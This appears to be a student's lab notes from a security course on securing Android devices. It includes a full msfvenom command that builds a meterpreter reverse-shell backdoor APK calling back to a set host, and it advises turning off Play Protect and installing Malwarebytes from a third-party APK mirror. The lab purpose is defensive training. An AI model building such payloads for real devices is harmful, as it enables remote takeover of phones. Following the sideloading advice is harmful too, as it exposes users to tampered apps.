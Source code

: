 ## Lab 2: Secure Android Devices using Various Android Security Tools

### Task 1: Analyze a malicious app using online Android analyzers

+ Open `https://www.sisik.eu/apk-tool` on `FireFox` in `Parrot`
+ Upload the APK files
  + /var/www/html/share/Backdoor.apk
+ View the relavant information

#### Create Backdoor.apk

+ Open the `terminal`
+ sudo su
+ cd
+ service postgresql start
+ msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk

### Task 2: Secure Android devices from malicious apps using Malwarebytes Security

+ Turn off Play Protect
+ Download the Malwarebytes Security Application from the following link `https://apk.gold/download?file_id=2274206/malwarebytes-anti-malware`
+ Run the Malwarebytes Application
+ Click `Scan Now`
+ Click `Remove Selected`

---

# Things to note

Module 08 Lab 3: Detect Network Sniffing
  - Task 2: Detect ARP Poisoning using the Capsa Network Analyzer
    - Download Link: https://www.colasoft.com/download/capsaent.zip 
    - License Key: {{Secret.key}}

Module 17 Lab 2: Secure Android Devices using Various Android Security Tools
  - Task 2: Secure Android devices from malicious apps using Malwarebytes Security
    - https://apk.gold/download?file_id=2274206/malwarebytes-anti-malware 